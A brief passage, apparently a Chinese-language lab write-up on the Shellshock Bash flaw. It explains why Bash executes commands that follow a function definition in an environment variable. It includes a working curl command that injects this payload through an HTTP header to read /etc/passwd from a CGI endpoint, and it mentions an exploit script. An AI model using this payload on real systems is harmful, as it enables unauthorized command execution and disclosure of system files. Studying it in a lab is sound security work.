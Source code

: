 ![](image/2.png)
- bash使用的环境变量是通过函数名称来调用的，且输入的过滤中没有严格限制边界，没有做合法化的参数判断
- 以“() {”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令

### （1）手工利用漏洞

- 远程获取/etc/passwd文件内容

```
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' '172.17.0.1/victim.cgi' -I
```
![](image/3.png)

### （2）脚本化利用漏洞
- 运行shell_shocker.py可运行全路径的bash指令
